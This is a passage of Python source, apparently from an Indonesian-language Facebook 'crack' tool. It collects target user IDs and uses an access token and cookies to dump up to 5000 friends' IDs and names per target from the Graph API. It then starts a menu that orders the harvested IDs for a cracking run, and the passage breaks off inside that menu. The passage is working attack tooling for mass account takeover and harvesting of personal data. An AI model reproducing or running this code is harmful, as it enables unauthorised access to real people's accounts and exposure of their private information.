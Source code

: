 		print('\x1b[1;93m[\x1b[1;92m!\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mENTER ID FOR CKRACK !')
		exit()
	if jum<1 or jum>100:
		print('\x1b[1;93m[\x1b[1;92m!\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mGagal Dump ID ')
		exit()
	ses=requests.Session()
	yz = 0
	for met in range(jum):
		yz+=1
		kl = input('\x1b[1;93m[\x1b[1;92m+\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mENTER ID FOR CRACK '+str(yz)+' > \x1b[1;93m')
		uid.append(kl)
	for userr in uid:
		try:
			col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
			for mi in col['friends']['data']:
				try:
					iso = (mi['id']+'|'+mi['name'])
					if iso in id:pass
					else:id.append(iso)
				except:continue
		except (KeyError,IOError):
			pass
		except requests.exceptions.ConnectionError:
			print('\x1b[1;93m[\x1b[1;92m!\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mSinyal Anda Kurang Bagus Nih !')
			exit()
	try:
		print('')
		print(f'\x1b[1;93m[\x1b[1;92m+\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mTotal ID Yang Terkumpul = {k}'+str(len(id)))
		setting()
	except requests.exceptions.ConnectionError:
		print(f'{x}')
		print('\x1b[1;93m[\x1b[1;92m!\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mSinyal Anda Kurang Bagus Nih !')
		back()
	except (KeyError,IOError):
		print(f'\x1b[1;93m[\x1b[1;92m!\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mPertemanan Tidak Public \33[m(\x1b[1;91mX\33[m)')
		time.sleep(3)
		back()
def setting():
	print('\x1b[1;93m[\x1b[1;92m+\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92m1. OLD ')
	print('\x1b[1;93m[\x1b[1;92m+\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92m2.  NEW ')
	print('\x1b[1;93m[\x1b[1;92m+\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92m3. RANDOM ')
	print('')
	hu = input('\x1b[1;93m[\x1b[1;92m+\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mPilih > \x1b[1;93m ')
	print('')
	if hu in ['1','01']:
		for tua in sorted(id):
			id2.append(tua)
